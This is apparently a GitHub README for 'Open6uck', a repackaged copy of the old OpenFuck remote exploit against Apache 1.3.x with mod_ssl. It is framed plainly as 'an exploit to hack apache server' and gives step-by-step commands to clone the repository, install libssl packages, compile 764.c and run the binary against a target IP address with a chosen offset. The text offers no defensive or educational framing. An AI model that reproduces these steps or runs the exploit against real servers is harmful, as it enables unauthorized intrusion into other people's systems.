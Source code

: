 # Open6uck
Original Name is OpenFuck, but i changed it for some reasons.

This is an exploit to hack apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated.

Below you can take updated exploit file
1. Download the below file
~~~
git clone https://github.com/dillu345/OpenFuck.git
~~~
2. Install libssl-dev & libssl1.0-dev
~~~
apt install libssl-dev
apt install libssl1.0-dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
